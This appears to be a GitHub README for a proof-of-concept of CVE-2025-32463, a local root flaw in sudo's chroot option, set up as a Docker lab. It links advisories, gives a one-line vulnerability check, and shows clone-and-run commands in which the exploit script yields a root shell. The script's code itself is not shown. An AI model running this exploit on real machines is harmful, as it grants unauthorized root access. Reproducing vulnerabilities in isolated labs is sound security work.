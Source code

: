 ﻿
# CVE-2025-32463 – sudo chroot ("chwoot") PoC

This repository provides a minimal, reproducible environment to demonstrate the **CVE‑2025‑32463** privilege‑escalation flaw in `sudo`’s chroot feature.
- This vulnerability is reported by [Rich Mirch](https://www.stratascale.com/team/rich-mirch) ([@0xm1rch](https://x.com/0xm1rch) on X) @ [Stratascale](https://www.stratascale.com/).
- Original post: [Vulnerability Advisory: Sudo chroot Elevation of Privilege](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)
- NVD: [CVE-2025-32463](https://nvd.nist.gov/vuln/detail/CVE-2025-32463) (CVSS 9.3)

---

## Affected Versions

> Vulnerable builds of **sudo 1.9.14** up to **1.9.17** (all p‑revisions) on most Linux distributions are affected.

Security Pages
- [Ubuntu](https://ubuntu.com/security/CVE-2025-32463) (CVSS 9.3)
- [Redhat](https://access.redhat.com/security/cve/cve-2025-32463) (CVSS 7.8)
- [SUSE](https://www.suse.com/security/cve/CVE-2025-32463.html) (CVSS 7.8)
- [Debian](https://security-tracker.debian.org/tracker/CVE-2025-32463)

---

## Contents

| File               | Purpose                                                                            |
| ------------------ | ---------------------------------------------------------------------------------- |
| **Dockerfile**     | Builds an Ubuntu 24.04 image with vulnerable **sudo 1.9.16p2** and build tools     |
| **sudo‑chwoot.sh** | Proof‑of‑concept exploit that spawns a root shell inside the chroot                |
| **run.sh**         | Helper script that builds the image (if needed) and launches the exploit container |

---

## Quick vulnerability check
```bash
# Vulnerable sudo
pwn ~ $ sudo -R woot woot
sudo: woot: No such file or directory

# Patched sudo
pwn ~ $ sudo -R woot woot
[sudo] password for pwn:
sudo: you are not permitted to use the -R option with woot
```
## Test exploit in Docker container


```bash
# 1 – clone repo
$ git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git
$ cd CVE-2025-32463_chwoot

# 2 – build and run Docker image (tagged "sudo-chwoot")
$ ./run.sh

# 3 – run exploit in container (runs root command directly or drops you into a root shell)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh id
woot!
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
pwn@f722d9182d1f:~$ ./sudo-chwoot.sh
woot!
root@f722d9182d1f:/# id
uid=0(root) gid=0(root) groups=0(root),1001(pwn)
root@f722d9182d1f:/#
```
`run.sh` passes `--privileged` and `--rm` to Docker so the container cleans itself up when you exit.

---

## Clean Up

Remove the image when you’re done:


```bash
docker rmi sudo-chwoot
```
---

## Reference

- Stratascale CRU vulnerability note: [Vulnerability Advisory: Sudo chroot Elevation of Privilege](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-16

---